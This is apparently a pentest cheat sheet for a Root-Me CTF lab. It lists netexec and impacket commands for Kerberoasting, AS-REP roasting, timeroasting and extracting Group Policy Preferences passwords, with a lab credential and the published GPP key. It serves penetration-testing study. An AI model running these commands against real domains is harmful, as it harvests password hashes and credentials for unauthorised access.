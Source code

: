 [[1. KERBEROASTING]]

```bash
nxc ldap ctf05.root-me.org -u pentest -p Pent3st123! --kdcHost ctf05.root-me.org --kerberoasting SPNs.txt
```

[[2. AS-REP ROASTING]]

```bash
nxc ldap ctf05.root-me.org -u users -p '' --kdcHost ctf05.root-me.org --asreproast ASREP.txt
```


---
# Computers Timeroastables


[[TIMEROASTING]]

```bash
nxc smb 10.10.11.31 -M timeroast | grep 'sntp-ms' | cut -f2 -d":" > timeroast.hashes
```



---
# 8. Identifier les GPP Passwords

> [!TIP]
> Mot de passe chiffré dans .xml avec cette clé ->
> 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b


## LINUX

### Netexec

```bash
nxc smb <hostname> -u <user> -p <pass> -M gpp_password
```

```bash
nxc smb <hostname> -u <user> -p <pass> -M gpp_autologin
```

### Impacket

```bash
sudo impacket-Get-GPPPassword domain/user@ip
```


## WINDOWS

### Get-GPPPassword
